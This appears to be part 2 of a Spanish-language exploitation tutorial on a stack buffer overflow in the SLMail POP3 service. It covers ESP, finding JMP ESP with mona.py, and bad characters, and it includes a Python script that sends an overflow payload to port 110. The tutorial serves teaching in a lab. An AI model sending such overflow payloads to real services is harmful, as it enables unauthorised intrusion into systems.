






# Buffer Overflow - Parte 2: Asignación de espacio para el Shellcode


## 📋 Índice
- [Concepto:  Usando el Stack](#concepto-usando-el-stack)
- [Cómo funciona el ESP](#cómo-funciona-el-esp)
- [Estrategia:  JMP ESP](#estrategia-jmp-esp)
- [Bad Characters](#bad-characters)
- [Siguientes pasos](#siguientes-pasos)

## Concepto: Usando el Stack

### 🏗️ La estructura del Stack

En la **Parte 1** logramos controlar el registro **EIP** (Instruction Pointer), pero ¿qué hacemos con ese control?

La respuesta está en el **stack** (pila), una estructura de datos fundamental:

| Característica | Descripción |
|---|---|
| **Tipo** | LIFO (Last In, First Out) |
| **Función** | Almacena datos temporales, direcciones de retorno, variables locales |
| **Crecimiento** | Hacia direcciones de memoria más bajas |
| **Límites** | Definidos por el SO y la arquitectura |



### 📊 Anatomía de nuestro Buffer Overflow

Después del crash del EIP en la Parte 1, nuestro payload se estructura así:

```
┌─────────────────────────────────────────────┐
│         BUFFER (2606 bytes "A")             │  ← Rellena el espacio
├─────────────────────────────────────────────┤
│    EIP (4 bytes "B") = 0x42424242           │  ← Control del flujo
├─────────────────────────────────────────────┤
│   ESPACIO DISPONIBLE (C's, D's, etc.)       │  ← 👈 AQUÍ VA EL SHELLCODE
├─────────────────────────────────────────────┤
│  Variables locales / Stack frame anterior    │
└─────────────────────────────────────────────┘

         ⬇️ Cuando EIP salta a ESP
         👉 Se ejecuta el shellcode
```

> [!info] Stack Overflow vs Buffer Overflow
> - **Buffer Overflow**: Escribimos más datos de los permitidos en un buffer
> - **Stack Overflow**:  Aprovechamos eso para sobrescribir datos en el stack

---

## Cómo funciona el ESP

### 🎯 El registro ESP (Extended Stack Pointer)

| Aspecto | Detalle |
|--------|---------|
| **Nombre** | Extended Stack Pointer |
| **Tamaño** | 4 bytes (32-bit) |
| **Función** | Apunta a la "pila" actual (LIFO) |
| **En nuestro caso** | Apunta a los datos que escribimos (nuestro shellcode) |
| **Actualización** | Se modifica con cada PUSH/POP en el stack |

### 📍 Ubicación del ESP después del overflow

Cuando ejecutamos nuestro payload:  

```python
PAYLOAD = b"A" * 2606 + b"B" * 4 + b"C" * 1000
#          └─────┬─────┘  └─┬─┘  └────┬────┘
#          Buffer al EIP   EIP   Espacio libre
#                                     ↑
#                              ESP apunta aquí
```

**Flujo de ejecución:**



---

## Estrategia: JMP ESP

### 🎪 El problema

Si ponemos directamente la dirección del ESP en el EIP, no funcionará porque:

1. **El ESP es dinámico**: Su valor cambia en cada ejecución
2. **No es predecible**: No sabemos exactamente dónde estará
3. **Necesitamos una referencia fija**: Un lugar en memoria que SIEMPRE nos lleve al ESP

### ✅ La solución:  Buscar una instrucción JMP ESP

En lugar de saltar directamente a una dirección desconocida, buscamos una instrucción que ya exista en la memoria del programa:

```assembly
JMP ESP  ; Salta a la dirección apuntada por ESP
```

Esta instrucción puede encontrarse en:
- El código del programa vulnerable (SLMail)
- Las librerías que usa (. dll files)
- El SO

### 📍 Cómo funciona



### 🔎 Pasos para encontrar JMP ESP

#### 1️⃣ Con mona.py (Immunity Debugger)

```bash
!mona jmp -r esp
```

Esto buscará en toda la memoria instrucciones como: 
- `JMP ESP`
- `CALL ESP`
- Equivalentes en diferentes arquitecturas

**Ejemplo de salida:**
```
0x7C341AB2   JMP ESP      (kernel32.dll)
0x7C34AB2C   JMP ESP      (kernel32.dll)
0x77D4AB56   JMP ESP      (ntdll.dll)
...
```

#### 2️⃣ Consideraciones importantes

Busca direcciones que:
- **No contengan NULL bytes** (`0x00`): Porque truncarían el payload
- **Estén en librerías estables** (no cambien entre versiones)
- **Sean confiables** (en memoria ejecutable)

> [!warning] Bad Characters en direcciones JMP
> Si la dirección del JMP contiene bytes inválidos (como `0x00`), debemos buscar otra.  Por ejemplo:
> 
> ❌ `0x00341AB2` - Contiene null byte
> ✅ `0x7C341AB2` - Sin null bytes

---

## Bad Characters

### 🚫 ¿Qué son los Bad Characters? 

Un **bad character** es cualquier byte que el programa vulnerable procesa de forma incorrecta: 

| Bad Char | Problema | Ejemplo |
|----------|----------|---------|
| `0x00` | Null terminator (trunca strings) | Corta el payload |
| `0x0A` | Newline (LF) | Interpreta como salto de línea |
| `0x0D` | Carriage return (CR) | Interpreta como retorno de carro |
| `0x20` | Space (puede ser filtrado) | Algunos programas lo bloquean |
| Otros | Depende del programa | Cada aplicación es diferente |

### 📊 Impacto en el exploit



### 🔍 Cómo identificar Bad Characters

#### Método 1: Fuzzing manual con bytearrays

Creamos un array con TODOS los posibles bytes y lo enviamos:

```python name="test_badchars. py"
import socket

IP_ADDRESS = "192.168.1.5"
PORT = 110
OFFSET = 2606

# Crear bytearray con todos los bytes posibles (0x00 a 0xFF)
BADCHARS = bytearray(range(0, 256))

def exploit():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP_ADDRESS, PORT))
    
    banner = s.recv(1024)
    print(f"[+] Banner: {banner.decode()}")
    
    s.send(b"USER test\r\n")
    s.recv(1024)
    
    # Payload:  buffer + EIP + byteararray de prueba
    payload = b"A" * OFFSET + b"B" * 4 + BADCHARS
    
    print(f"[! ] Enviando {len(BADCHARS)} bytes para analizar badchars...")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()
    
    print("[+] Payload enviado.")
    print("[*] Abre Immunity Debugger y sigue el bytearray en el stack.")
    print("[*] Busca qué bytes faltan o aparecen modificados.")

if __name__ == '__main__':
    exploit()
```

**Ejecución:**
```bash
python test_badchars.py
```

#### Método 2: Análisis en Immunity Debugger

1. **Envía el bytearray** con el script anterior
2. **En Immunity**, cuando se produzca el crash: 
   - Click derecho en el ESP → **Follow in Dump** (panel inferior)
   - Observa qué bytes están ahí
   - Compara con lo que debería haber
   - Identifica los que **faltan** o **cambiaron**

**Ejemplo visual:**

```
Esperado:  00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E... 
Recibido:  00 01 02 03 04 05 06 07 08 09 XX 0B 0C 0D 0E...
                                         ↑↑
                                    0x0A es bad char
```

> [!tip] Automatizar con mona.py
> ```bash
> !mona bytearray -b "\x00\x0a\x0d"
> ```
> Crea un bytearray excluyendo los badchars que ya conoces. 

---

## 📊 Resumen visual de la Parte 2



---

## 💡 Conceptos clave

> [!info] Stack Pointer (ESP)
> El ESP es un registro que siempre apunta a la "cima" del stack (última posición de datos). Si logramos que el EIP salte al ESP, ejecutaremos código en esa ubicación.

> [!warning] Direcciones con NULL bytes
> En lenguaje C, `\x00` termina strings.  Si la dirección del JMP contiene `0x00`, se truncará y no funcionará: 
> 
> ```
> 0x7C341AB2  ✅ Válida
> 0x00341AB2  ❌ Inválida (null byte)
> ```

> [!example] Bad Characters comunes
> ```
> \x00 - Null (termina strings)
> \x0A - LF (salto de línea)
> \x0D - CR (retorno de carro)
> \x20 - Space (algunos lo filtran)
> ```

---

## 🔗 Siguientes pasos



---

## 📚 Comandos clave para esta fase

| Comando | Función | En qué fase |
|---------|---------|------------|
| `!mona jmp -r esp` | Buscar JMP ESP | Immunity Debugger |
| `!mona bytearray` | Generar bytearray sin badchars | Immunity Debugger |
| `!mona compare -a <dirección>` | Comparar memoria con patrón | Immunity Debugger |
| `python test_badchars.py` | Enviar bytearray a la víctima | Máquina atacante |


---

> [!success] Resumen de Parte 2
> 
> ✅ El **ESP** apunta a nuestro shellcode en el stack  
> ✅ Necesitamos **JMP ESP** para redirigir la ejecución al ESP  
> ✅ Los **bad characters** pueden corromper el shellcode  
> ✅ Debemos **identificar y evitar** los bad characters  
> 
> **Próximo paso:** [[Parte 3 - Generación de Bytearray y detección de Badchars]]